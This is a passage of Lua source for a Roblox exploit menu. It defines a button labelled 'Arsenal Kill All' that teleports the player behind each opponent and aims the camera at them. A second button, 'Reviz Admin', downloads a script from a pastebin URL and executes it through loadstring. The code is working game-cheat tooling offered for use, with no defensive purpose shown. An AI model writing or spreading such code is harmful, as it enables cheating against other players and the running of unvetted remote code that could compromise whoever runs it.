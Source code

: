 	EXPLOIT8.Name = "EXPLOIT8"
	EXPLOIT8.Parent = MainFrame
	EXPLOIT8.BackgroundColor3 = Color3.fromRGB(68, 68, 68)
	EXPLOIT8.BorderSizePixel = 0
	EXPLOIT8.Position = UDim2.new(0.388349503, 0, 0.711026609, 0)
	EXPLOIT8.Size = UDim2.new(0, 92, 0, 32)
	EXPLOIT8.Font = Enum.Font.Cartoon
	EXPLOIT8.Text = "Arsenal Kill All"
	EXPLOIT8.TextColor3 = Color3.fromRGB(255, 255, 255)
	EXPLOIT8.TextScaled = true
	EXPLOIT8.TextSize = 14.000
	EXPLOIT8.TextWrapped = true
	EXPLOIT8.MouseButton1Down:connect(function()
		print("Script made by FramzDev#8283")
		local c = workspace.CurrentCamera
		local lplr = game.Players.LocalPlayer

		function a(p)
			if p and p.Character then
				pcall(function()
					local t = p.Character.PrimaryPart.CFrame * Vector3.new(0, -0.25, 0)
					c.CFrame = CFrame.new(c.Focus.p, t) * CFrame.new(0, 0, 0.5)
				end)
			end
		end
		for i=1,10 do
			for _,v in pairs(game.Players:GetPlayers()) do
				pcall(function()
					for i=1,15 do
						lplr.Character.HumanoidRootPart.CFrame = v.Character.HumanoidRootPart.CFrame - v.Character.HumanoidRootPart.CFrame.LookVector*4
						a(v)
						wait()
					end
				end)
			end
		end
	end)

	EXPLOIT10.Name = "EXPLOIT10"
	EXPLOIT10.Parent = MainFrame
	EXPLOIT10.BackgroundColor3 = Color3.fromRGB(68, 68, 68)
	EXPLOIT10.BorderSizePixel = 0
	EXPLOIT10.Position = UDim2.new(0.75242722, 0, 0.323193908, 0)
	EXPLOIT10.Size = UDim2.new(0, 92, 0, 32)
	EXPLOIT10.Font = Enum.Font.Cartoon
	EXPLOIT10.Text = "Reviz Admin"
	EXPLOIT10.TextColor3 = Color3.fromRGB(255, 255, 255)
	EXPLOIT10.TextScaled = true
	EXPLOIT10.TextSize = 14.000
	EXPLOIT10.TextWrapped = true
	EXPLOIT10.MouseButton1Down:connect(function()
		loadstring(game:HttpGet(('https://pastebin.com/raw/KNUzQPYS'),true))()
	end)
